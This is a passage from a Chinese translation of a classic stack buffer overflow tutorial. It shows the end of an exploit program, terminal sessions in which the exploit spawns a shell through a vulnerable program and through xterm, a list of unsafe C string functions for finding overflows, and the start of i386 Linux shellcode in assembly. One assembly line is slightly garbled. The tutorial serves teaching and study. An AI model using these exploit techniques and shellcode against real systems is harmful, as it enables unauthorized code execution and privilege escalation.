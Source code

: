 ```c
    putenv(egg);
    memcpy(buff,"RET=",4);
    putenv(buff);
    system("/bin/bash");
}
```

让我们尝试我们新的exp怎么样

```sh
[aleph1]$ ./exploit4 768 
Using address: 0xbffffdb0 
[aleph1]$ ./vulnerable $RET 
$
```

这运行起来非常有魅力，让我在xterm上试试

```sh
[aleph1]$ export DISPLAY=:0.0 
[aleph1]$ ./exploit4 2148 
Using address: 0xbffffdb0 
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET 
Warning: Color name
...°¤ÿ¿°¤ÿ¿°¤ ...
Warning: some arguments in previous message were lost 
$
```

第一次尝试就成功了！这无疑增加了我们的机会。根据漏洞利用程序与要尝试利用的程序比较的环境数据量，猜测的地址可能太低或太高。我们需要用正负偏移量进行实验。



### Finding Buffer Overflows



如上所述，缓冲区溢出是由于将更多的信息填充到缓冲区中而无法容纳的结果。由于C没有任何内置的边界检查，所以溢出通常表现为在字符数组末尾写入。C的标准库提供了许多用于复制或拼接字符串的函数，这些函数都不执行边界检查。它们包括：`strcat()`，`strcpy()`，`sprintf()`和`vsprintf()`。这些函数对以`\0`结尾的字符串起作用，并且不检查接收字符串是否溢出。`gets()`是一个函数，将从stdin的一行读取到缓冲区中，直到终止换行符或EOF。它不检查缓冲区溢出。如果您要匹配一系列非空格字符（`％s`），则`scanf()`系列函数也可能会出现问题，或匹配指定集合（`％[]`）中的非空字符序列，以及char指针指向的数组不足以容纳整个字符序列，并且尚未定义可选的最大字段宽度。如果这些函数中的任何一个的目标都是静态大小的缓冲区，并且其另一个参数是通过某种方式从用户输入派生的，则很可能利用缓冲区溢出来攻击。我们发现的另一种常见的编程构造是使用 while循环，一次将一个字符从stdin或某个文件读入缓冲区，直到到达行尾，文件末尾或其他定界符。这种类型的构造通常使用以下函数之一：`getc()`，`fgetc()`或`getchar()`。如果在while循环中没有显式检查是否有溢出，则很容易利用这些程序。最 后，grep（1）是你的朋友。开源操作系统及其开源程序的源码很容易获得。一旦您意识到许多商业操作系统工具与开源程序有相同的源码，这一切就变得非常有趣。Use the source d00d。



------



#### 附录A：Shellcode for Different Operating Systems/Architectures



i386/Linux (32bi)

```assembly
jmp		0x1f
popl 	%esi 
movl 	%esi,0x8(%esi) 
xorl 	%eax,%eax 
movb 	%eax,0x7(%esi) 
movl 	%eax,0xc(%esi) 
movb 	$0xb,%al 
movl 	%esi,%ebx l
eal 	0x8(%esi),%ecx 
leal 	0xc(%esi),%edx 
int		$0x80
xorl 	%ebx,%ebx 
movl 	%ebx,%eax 
```